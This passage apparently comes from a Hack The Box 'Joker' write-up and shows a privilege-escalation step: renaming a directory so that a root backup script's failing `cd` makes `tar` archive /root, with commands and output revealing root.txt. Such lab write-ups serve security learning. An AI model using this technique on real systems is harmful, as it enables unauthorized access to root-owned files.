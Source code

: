 But what if that first `cd` fails? The directory would stay in `/root`, and
then it would run `tar cf` to compress everything and drop the archive into
the same filename.

#### Exploit

I’ll move the `development` directory to something else:

    
    
    alekos@joker:~$ mv development{,.orig}
    alekos@joker:~$ ls
    backup  development.orig  user.txt
    

Now when a new archive is created, it has the contents of `/root`:

    
    
    alekos@joker:~/backup$ tar tvf dev-1596506401.tar.gz 
    -rwx------ root/root       205 2017-05-18 19:25 backup.sh
    -r-------- root/root        33 2017-05-19 17:57 root.txt
    

[](/2020/08/13/htb-joker.html)

